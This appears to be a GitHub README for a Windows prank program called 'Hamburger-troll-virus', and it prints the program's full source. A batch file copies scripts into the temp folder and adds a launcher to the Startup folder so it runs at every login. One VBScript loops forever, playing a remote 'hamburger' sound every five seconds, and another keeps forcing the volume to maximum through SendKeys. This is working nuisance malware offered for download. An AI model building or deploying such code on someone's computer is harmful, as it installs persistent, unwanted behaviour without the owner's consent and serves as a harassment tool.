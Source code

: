 ![hamburger](http://leoaqua.de/hamburger.ico)
# Hamburger-troll-virus

# What does it do?

It let's your PC say "HAMBURGER" every 5 seconds with full volume after login or reboot

# FAQ
 Is it dangerous?
 - No 
 
 How can I get rid of it?
 
 - Execute uninstall.exe 
 
 It does not start!
 
 - Just wait or log off
 
 
# Download

[Releases](https://github.com/Leo-Aqua/Hamburger-troll-virus/releases)
 
# How it works

- launcher.bat

```Batchfile
@echo off
move hamburger.vbs %temp%
move volup.vbs %temp%
move tab.bat "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
move launcher.bat %temp%
```
Installs files




- hamburger.vbs

```VBScript
While true
Dim oPlayer
Set oPlayer = CreateObject("WMPlayer.OCX")
wscript.sleep 5000
oPlayer.URL = "https://www.myinstants.com/media/sounds/hamburger-sound-effect.mp3"
oPlayer.controls.play
While oPlayer.playState <> 1 ' 1 = Stopped
WScript.Sleep 100
Wend
oPlayer.close
Wend
```

Plays the _"hamburger"_ sound every 5 seconds

- volup.vbs
```VBScript
do
wscript.sleep 50
Set WshShell = CreateObject("WScript.Shell")
WshShell.SendKeys(chr(&hAF))
loop
```
raises volume to max using _"sendkeys"_ command

- tab.bat
```Batchfile
cd %temp%
start hamburger.vbs
start volup.vbs
exit
```
Starts everything

# Compiler
IExpress
LMAO🤣

